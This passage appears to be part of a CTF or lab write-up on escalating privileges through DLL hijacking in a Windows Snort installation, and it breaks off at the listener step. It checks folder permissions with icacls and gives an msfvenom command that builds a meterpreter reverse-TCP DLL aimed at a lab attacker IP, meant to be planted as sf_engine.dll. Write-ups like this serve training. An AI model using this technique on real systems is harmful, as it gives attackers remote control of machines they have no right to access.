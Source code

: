 - In the config file, we are particularly interested in this line:

![image42](../resources/756b7b73776942a0ad361e9c31ac754a.png)

As it says that it calls on the dll file - **sf_engine.dll**

- Now if we look in snort_dynamicengine dir - there is a file with that name in there

![image43](../resources/ba37a04f37fb4c4faf3b8840d0bfd4e0.png)

- But it isn't in the **snort_dynamicpreprocessor** dir

- We have write permissions for this folder:

```bash
icacls snort_dynamicpreprocessor

```

![image44](../resources/e56e376461014124bfbadb28a411e131.png)

- We can leverage this by uploading our own dll file into this directory and wait for it to be loaded

- Create a malicious dll:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.84 LPORT=4444 -f dll -o sf_engine.dll

```
- Start listener:
